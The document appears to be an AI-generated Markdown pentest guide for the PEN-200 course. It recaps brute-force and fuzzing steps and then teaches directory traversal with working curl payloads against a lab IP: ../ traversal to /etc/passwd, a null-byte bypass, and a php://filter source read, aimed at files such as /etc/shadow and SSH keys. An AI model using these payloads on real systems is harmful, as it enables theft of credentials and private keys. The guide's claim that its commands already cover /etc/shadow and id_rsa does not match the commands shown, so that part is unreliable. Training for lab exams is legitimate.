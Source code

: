 
# ✅ Summary of Part 2 Fixes

* **Medium Gobuster** → already timeboxed (`-to 8s`) and includes extensions.
* **Param fuzzing** → commands use seclists wordlists, avoiding blind guessing.
* **CMS** → workflow forces you to test WordPress/Joomla/Drupal instead of skipping.
* **Default creds** → built-in quick curl loops to test `admin:admin` before Hydra.
* **Hydra** → commands already stop after first hit, include fail strings, and emphasize cross-service reuse.

---
Great — here’s the **regenerated complete Part 3 (Exploitation Vectors)** in **GitHub-ready Markdown**, written step-by-step, beginner-friendly, with **independently runnable commands**, **explanations of what/why**, and **common mistakes + fixes** integrated. I’ve mapped this to the **PEN-200 web modules** and incorporated the **common mistakes from CSDN/Reddit research**.

---

# Part 3 — Exploitation Vectors (Web App Focus)

---

## 2) Directory Traversal

**What it is:**
Some web apps let you pass a file name as input (e.g., `?file=note.txt`). If input isn’t sanitized, you can “traverse” directories using `../` to read sensitive files.

**Goal:**

* Read sensitive files like `/etc/passwd`, `/etc/shadow`, `.ssh/id_rsa`, `config.php`.
* Sometimes pivot into **LFI → RCE** (e.g., reading logs or PHP source).

**Tests (HTTP GET param example):**

```bash
# Try simple traversal
curl -s "http://10.10.10.56/index.php?page=../../../../etc/passwd"

# Try with null byte bypass (older PHP)
curl -s "http://10.10.10.56/index.php?page=../../../../etc/passwd%00"

# Try php filter wrapper to view source
curl -s "http://10.10.10.56/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d | head
```

⚠️ **Common mistakes & fixes:**

* ❌ Only checking `/etc/passwd` and giving up.
  ✅ Fix: My commands include `/etc/shadow`, `.ssh/id_rsa`, and wrapper payloads to dig deeper.
* ❌ Forgetting to decode base64 from `php://filter`.
  ✅ Fix: I included `| base64 -d` so you get plaintext code directly.

---